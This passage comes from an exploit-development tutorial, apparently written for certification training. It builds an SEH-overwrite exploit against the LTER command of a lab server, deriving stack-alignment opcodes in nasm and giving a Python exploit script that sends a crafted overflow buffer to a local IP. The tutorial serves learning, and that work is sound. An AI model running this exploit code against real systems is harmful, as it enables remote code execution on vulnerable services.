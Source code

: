 So our first code in our `D` buffer will be: `\x54\x58`

Next, we have to figure out the difference between `EAX` and where we want it. `EAX` is currently pointed at `0174ECA4` since we put the `ESP` value in there. We want it near the bottom of our `D` buffer so that it's near once our decoded shellcode appears on top of it. I picked the address `0174FFEF` and then calculated the difference. (`0174FFEF` - `0174ECA4` = `134B`). So we need to move up `134B` spaces. Let's get the opcodes in the nasm shell. 
```terminal_session
nasm > add ax, 0x134b
00000000  66054B13          add ax,0x134b
```

Ok so `EAX` will now hold the value `174FFEF`, now to just push that value back into `ESP`. 
```terminal_session
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

So the rest of our code to prepare `ESP` is: `\x66\x05\x4b\x13\x50\x5C`.
Let's add the variable `espAdj` to our exploit which now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
Seh = '\x2b\x17\x50\x62'
espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

buffer = 'A' * 3514
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += 'D' * (4000 - 3514 - len(nSeh) - len(Seh) - len(espAdj))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

And let's run it and see how well we did. If all went well, when we step through this code in the `D` buffer, `ESP` should be pointing at our desired address for it `0174FFEF`. 

![](/assets/images/CTP/LTERespalign.JPG)
